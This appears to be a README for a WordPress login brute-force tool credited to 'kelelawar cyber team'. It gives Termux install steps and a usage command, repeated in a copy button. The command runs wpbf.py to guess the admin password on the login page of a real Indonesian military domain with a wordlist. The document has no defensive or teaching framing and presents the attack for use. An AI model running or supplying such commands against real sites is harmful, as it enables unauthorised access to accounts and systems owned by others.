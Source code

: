 # Wordpress-Bruteforce

<img src="https://l.top4top.io/p_2240nm0hp0.png" width="400" height="400" alt="kelelawar cyber team">
<br>
<div class="snippet-clipboard-content position-relative overflow-auto">
<pre><code>
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt
</code></pre>
<div class="zeroclipboard-container position-absolute right-0 top-0">
<clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="$ pkg update &amp;&amp; upgrade
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ python2 wpbf.py -h https://korem091-tniad.mil.id/wp-login.php -u admin -P 110.txt" tabindex="0" role="button" style="display: inherit;">
